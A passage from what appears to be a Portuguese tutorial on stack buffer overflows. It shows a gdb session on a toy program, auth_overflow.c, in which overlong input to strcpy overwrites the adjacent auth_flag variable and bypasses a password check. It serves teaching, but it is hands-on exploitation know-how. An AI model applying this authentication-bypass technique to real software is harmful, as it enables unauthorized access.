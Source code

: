     Breakpoint 2 at 0x8049266: file auth_overflow.c, line 14.
    ```

    Adicionamos um break point nas linhas 9 e 14 para olhar o estado das variáveis da funcao check_authentication

    ```c
    (gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Starting program: ~/src/a.out AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    Breakpoint 1, check_authentication (password=0xffffd187 'A' <repeats 30 times>) at auth_overflow.c:9
    9		strcpy(password_buffer, password);
    (gdb) x/s password_buffer
    0xffffce6c:	"h\354\372", <incomplete sequence \367>
    (gdb) x/wx &auth_flag
    0xffffce7c:	0x00000000
    (gdb) x/16x password_buffer
    0xffffce6c:	0xf7faec68	0xf7fab000	0xf7fe22f0	0x00000000
    0xffffce7c:	0x00000000	0xf7fab3fc	0x0804c000	0xffffcea8
    0xffffce8c:	0x080492c6	0xffffd187	0xffffcf54	0xffffcf60
    0xffffce9c:	0x08049286	0xffffcec0	0x00000000	0x00000000
    (gdb) print 0xffffce7c - 0xffffce6c
    $1 = 16
    ```

    Até o primeiro break point, o conteúdo de `password_buffer` contém lixo e o conteúdo de `auth_flag` está zerado, mas queremos que ele contenha qualquer byte, para que a autenticacão funcione.

    Olhando o endereco das variáveis, podemos ver que o endereco de auth_flag (`0xffffce7c`) está acima na memória do que o endereco de password_buffer(`0xffffce6c`), e com o comando `print` podemos ver que a variável auth_flag está 16 bytes acima de password_buffer. Se escrevermos mais de 16 caracteres, e que se escrevermos mais de 16 caracteres no argumento do programa, o `strcpy()` vai escrever dentro da variável auth_flag que será retornada sendo diferente de 0.

    Rodando o programa no debuger denovo:

    ```c
    (gdb) run AAAABBBBCCCCDDDDEE
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: ~/src/a.out AAAABBBBCCCCDDDDEE

    Breakpoint 1, check_authentication (password=0xffffd193 "AAAABBBBCCCCDDDDEE") at auth_overflow.c:9
    9		strcpy(password_buffer, password);
    (gdb) cont
    Continuing.

    Breakpoint 2, check_authentication (password=0xffffd193 "AAAABBBBCCCCDDDDEE") at auth_overflow.c:14
    14		return auth_flag;
    (gdb) x/s password_buffer
    0xffffce7c:	"AAAABBBBCCCCDDDDEE"
    (gdb) x/wx &auth_flag
    0xffffce8c:	0x00004545
    (gdb) cont
    Continuing.
